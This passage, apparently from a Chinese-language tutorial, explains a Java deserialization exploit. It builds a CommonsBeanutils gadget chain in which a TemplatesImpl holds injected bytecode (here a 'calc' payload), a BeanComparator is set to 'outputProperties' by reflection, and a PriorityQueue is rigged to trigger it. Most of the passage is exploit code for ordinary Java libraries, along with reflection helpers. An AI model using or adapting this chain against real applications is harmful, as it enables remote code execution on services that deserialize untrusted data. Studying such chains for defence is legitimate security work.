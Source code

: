 ```java
        ByteArrayInputStream btin = new ByteArrayInputStream(serialized);
        ObjectInputStream objIn = new ObjectInputStream(btin);
        return objIn.readObject();
    }
}
```

初始化时使用正经对象，且` property` 为空，这一系列操作是为了初始化的时候不要出错。然后，我们再用反射将`property `的值设置成恶意的 `outputProperties` ，将队列里的两个`1`替换成恶意的`TemplateImpl `对象（这里的话因为后面需要调用`PropertyUtils.getProperty( o1, property)`，这里的`o1`得是我们传进去的恶意`TemplateImpl `对象）

```java
  public static void main(String[] args) throws Exception {
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][]{genPayload("calc").toBytecode()});
        setFieldValue(obj, "_name", "HelloTemplatesImpl");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());
      
        final BeanComparator comparator = new BeanComparator();
      
        PriorityQueue queue = new PriorityQueue(2, comparator);
        queue.add(1);
        queue.add(1);
      
        setFieldValue(comparator, "property", "outputProperties");
        setFieldValue(queue, "queue", new Object[]{obj, obj});
    }    
public static void setFieldValue(Object obj, String fieldName, Object
            value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }
```

使用`PriorityQueue`的调用栈：

![image-20240303191245598](assets/image-20240303191245598.png)
